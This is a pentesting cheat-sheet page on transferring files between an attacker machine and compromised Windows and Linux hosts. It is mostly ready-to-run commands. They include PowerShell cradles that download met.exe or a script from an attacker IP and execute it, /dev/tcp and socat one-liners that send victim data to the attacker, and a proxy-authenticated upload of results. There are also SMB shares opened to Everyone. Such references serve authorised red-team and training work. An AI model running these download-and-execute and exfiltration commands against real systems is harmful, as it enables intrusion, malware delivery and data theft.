 # File Transfer

* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
* [https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle)

{% embed url="https://snovvcrash.github.io/2018/10/11/simple-http-servers.html" caption="Об HTTP-серверах для трансфера файлов в Linux" %}




## Base64

String to base64 and POST with PowerShell:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > IWR -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```

File to base64 with `certutil`:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Base64 file transfer from Linux to Windows:

```
$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```




## Hex

Compress a binary file and transfer it to Windows by copy-pasting commands into the console:

```
$ upx -9 file.exe
$ exe2hex -x file.exe -p file.cmd
$ cat file.cmd | xclip -i -sel c
```




## PowerShell

PowerShell upload file:

```
PS > (New-Object Net.WebClient).UploadFile("http://10.10.13.37/file.txt", "file.txt")
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```powershell
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.UseDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

PowerShell manually set proxy and upload file to remote HTTP server:

```powershell
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential("snovvcrash","Passw0rd!","megacorp.local");$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```

Another proxy-aware download cradle:

```powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem "HKU:\" -ErrorAction SilentlyContinue
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start=$key.Name.Substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy("http://$proxyAddr")
$wc = New-Object System.Net.WebClient
$wc.DownloadString("http://10.10.13.37/test.txt") | IEX
Remove-PSDrive -Name HKU -Force
```




## /dev/tcp

Attacker is the sender:

```
# Sender:
root@kali:~$ tar -zcvf folder.tar.gz folder
root@kali:~$ nc -w3 -lvnp 1234 < folder.tar.gz
# Recipient:
www-data@victim:~$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:~$ tar -zxvf .folder.tar.gz
```

Victim is the sender:

```
# Recipient:
root@kali:~$ nc -w3 -lvnp 1234 > file.txt
# Sender:
www-data@victim:~$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## socat

Recipient (Attacker):

```
$ socat TCP-LISTEN:1337 OPEN:data.tar,create,append
```

Sender (Victim):

```
$ tar cf - /dev/shm/data | socat TCP:10.10.13.37:1337 -
```




## SMB



### smbserver.py

Start SMB server:

```
$ smbserver.py -smb2support share `pwd`
```

Mount SMB in Windows with `net use`:

```
$ smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
Cmd > net use Z: \\10.10.13.37\share
Cmd > net use Z: \\10.10.13.37\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
$ smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > New-PSDrive -Name Z -Root \\10.10.13.37\share -Credential $cred -PSProvider FileSystem
PS > cd Z:
```



### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```




## FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```




## TFTP

Send `file.exe` from Windows to Linux (TFTP client must be [enabled](https://teckangaroo.com/enable-tftp-windows-10/) on Windows):

```
$ sudo atftpd --daemon --bind 10.10.13.37 --port 69 ./tftp
Cmd > tftp -i 10.10.13.37 put file.exe
$ sudo pkill atftpd
```




## ICMP

- [https://github.com/icyguider/ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools)
- [https://snovvcrash.github.io/2019/04/05/htb-mischief.html](https://snovvcrash.github.io/2019/04/05/htb-mischief.html#icmpshellpy)




## Exfiltration / Infiltration

- [https://xakep.ru/2022/09/22/infilltration-and-exfiltration/](https://xakep.ru/2022/09/22/infilltration-and-exfiltration/)
- [https://github.com/s0i37/exfiltrate](https://github.com/s0i37/exfiltrate)




## Tools



### http-server

- [https://github.com/http-party/http-server](https://github.com/http-party/http-server)

```
$ sudo apt install npm -y
$ sudo npm install http-server -g
$ sudo http-server -d false -p 443 -S -C /etc/letsencrypt/live/example.com/cert.pem -K /etc/letsencrypt/live/example.com/privkey.pem --log-ip | tee http-server.log
```



### goshs

- [https://github.com/patrickhener/goshs](https://github.com/patrickhener/goshs)

```
$ eget -qs linux/amd64 "patrickhener/goshs" --to ~/tools/goshs
$ sudo ~/tools/goshs/goshs -ro -si -p 443 -s -sc /etc/letsencrypt/live/example.com/cert.pem -sk /etc/letsencrypt/live/example.com/privkey.pem -V | tee goshs.log
```



### simplehttpserver

- [https://github.com/projectdiscovery/simplehttpserver](https://github.com/projectdiscovery/simplehttpserver)

```
$ eget -qs linux/amd64 "projectdiscovery/simplehttpserver" --to ~/tools/pd
$ sudo ~/tools/pd/simplehttpserver -listen 10.10.13.37:1337 -path `pwd` -upload -https -cert /etc/letsencrypt/live/example.com/fullchain.pem -key /etc/letsencrypt/live/example.com/privkey.pem -domain example.com -basic-auth 'snovvcrash:Passw0rd!' -max-file-size 100
```
